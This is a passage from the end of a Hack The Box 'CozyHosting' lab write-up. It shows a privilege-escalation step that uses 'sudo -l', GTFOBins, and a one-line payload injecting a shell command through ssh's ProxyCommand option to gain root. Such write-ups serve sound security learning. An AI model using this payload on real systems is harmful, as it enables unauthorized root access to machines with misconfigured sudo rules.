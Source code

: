 Let's list the allowed commands to invoking the user using `sudo -l`.

![Listing allowed commands](/assets/images/writeups/CozyHosting-HTB/14.png)

Let's check the [gtfobins](https://gtfobins.github.io){:target="_blank"} for privilege escalation.

Found payload - `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

![Privilege escalation using gtfobins](/assets/images/writeups/CozyHosting-HTB/15.png)

That's all in this writeup.

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.
